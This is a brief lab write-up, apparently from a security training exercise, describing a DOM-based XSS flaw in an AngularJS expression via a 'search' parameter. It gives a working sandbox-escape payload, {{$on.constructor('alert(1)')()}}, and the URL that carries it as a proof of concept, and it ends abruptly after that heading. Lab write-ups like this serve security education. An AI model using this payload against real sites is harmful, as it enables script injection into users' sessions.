

# DOM XSS in AngularJS Expression

### Description
This lab demonstrates a DOM-based XSS vulnerability within an AngularJS expression. The application reflects user input within an `ng-app` managed element, allowing for an expression-based bypass.

### Vulnerable Parameter
* **Parameter:** `search`
* **Vulnerable URL:** `/?search={{$on.constructor('alert(1)')()}}`

### Payload Used
```javascript
{{$on.constructor('alert(1)')()}}
```
proof of Concept

